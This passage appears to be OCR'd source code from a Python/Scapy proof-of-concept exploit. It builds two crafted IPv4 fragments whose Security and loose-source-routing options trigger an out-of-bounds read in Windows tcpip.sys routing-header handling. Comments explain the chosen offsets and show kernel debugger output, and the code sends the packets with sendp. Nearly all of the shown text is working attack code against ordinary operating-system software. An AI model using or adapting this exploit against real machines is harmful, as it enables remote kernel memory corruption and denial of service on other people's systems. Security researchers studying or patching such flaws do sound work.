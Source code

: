 ```python
            dst = dst_ip,
            flags = 1,
            proto = nh,
            frag = 0,
            id = id,
            options = [IPOption_Security(
                length = 0xb,
                security = 0x11,
                # This is used for as an ~upper bound in Ipv4pReceiveRoutingHeader:
                compartment = 0xffff,
                # This is the offset that allows us to index out of the
                # bounds of the second fragment.
                # Keep in mind that, the out of bounds data is first used
                # before triggering any corruption (in Ipv4pReceiveRoutingHeader):
                #  - IppIsInvalidSourceAddressStrict,
                #  - Ipv4UnicastAddressScope.
                # if (IppIsInvalidSourceAddressStrict(Ipv4Global, &RoutingHeaderFirst[LenghtOptionFirstMinusOne])
                #     || (Ipv4UnicastAddressScope(&RoutingHeaderFirst[LenghtOptionFirstMinusOne]),
                #         v13 = Ipv4UnicastAddressScope(&Packet->RoutingOptionSourceIp),
                #         v14 < v13) )
                # The upper byte of handling_restrictions is `RoutingHeaderFirst[2]` in the above snippet
                # Offset of 6 allows us to have &RoutingHeaderFirst[LenghtOptionFirstMinusOne] pointing on
                # one.IP.options.transmission_control_code; last byte is OOB.
                #   kd>
                #   tcpip!Ipv4pReceiveRoutingHeader+0x178:
                #   fffff804`5c076f88 e8d7e1feff      call    tcpip!IppIsInvalidSourceAddressStrict (fffff804`5c065164)
                #   kd> db @rdx
                #   ffffdc07`ff209175  62 63 00 54 24 30 48 89-14 01 48 c0 92 20 ff 07  bc.T$0H...H.. ..
                #                                ^
                #                                |_ oob
                handling_restrictions = (6 << 8),
                transmission_control_code = b'\x11\xc1\xa8'
            )]
        ) / content[: 8]
    two = Ether() \
        / IP(
            src = src_ip,
            dst = dst_ip,
            flags = 0,
            proto = nh,
            frag = 1,
            id = id,
            options = [
                IPOption_NOP(),
                IPOption_NOP(),
                IPOption_NOP(),
                IPOption_NOP(),
                IPOption_LSRR(
                    pointer = 0x8,
                    routers = ['11.22.33.44']
                ),
            ]
        ) / content[8: ]

    sendp([one, two], iface='eth1')

def main():
    parser = argparse.ArgumentParser()
```